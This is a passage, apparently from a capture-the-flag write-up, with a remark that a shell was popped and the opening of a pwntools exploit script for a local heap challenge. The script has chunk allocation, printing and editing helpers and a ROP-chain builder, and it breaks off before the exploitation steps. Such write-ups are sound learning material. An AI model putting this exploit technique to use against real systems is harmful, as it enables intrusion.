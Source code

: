 ```
![image](https://user-images.githubusercontent.com/45107680/95235624-83478980-080e-11eb-9b8b-9648f30ac0df.png)

Yay, the shell is popped nicely :)

The final exploit for the local test: 

```
from pwn import *
import sys

def build_heap_rop_chain(main_gadgets):
    heap_rop_chain = b''
    for gadget in main_gadgets:
        heap_rop_chain += gadget
    return heap_rop_chain

def allocate_chunk(payload, len):
    io.recvuntil(b'Choice: ')
    io.sendline(b'1')
    io.recvuntil(b'length: ')
    io.sendline(str(len).encode()) 
    io.recvuntil(b'encrypt: ')
    io.sendline(payload) 

def print_chunk(idx, strtoul_pad = None):
    io.recvuntil(b'Choice: ')
    io.sendline(b'4')
    io.recvuntil(b'print: ')
    if strtoul_pad is None:
        io.sendline(str(idx).encode())
    else:
        io.sendline(str(idx).encode() + strtoul_pad)

def edit_chunk(new_msg, idx):
    io.recvuntil(b'Choice: ')
    io.sendline(b'2')
    io.recvuntil(b'edit: ')
    io.sendline(str(idx).encode())
    io.recvuntil(b'encrypt: ')
    io.sendline(new_msg)

if __name__ == "__main__":
    global io
    if (len(sys.argv) != 2):
        print("Usage : python {} <path to vulnerable program>".format(sys.argv[0]))
        sys.exit(1)
    io = process(sys.argv[1])
    #gdb.attach(io, '''
    #b *print_index + 158
    #c
    #''')
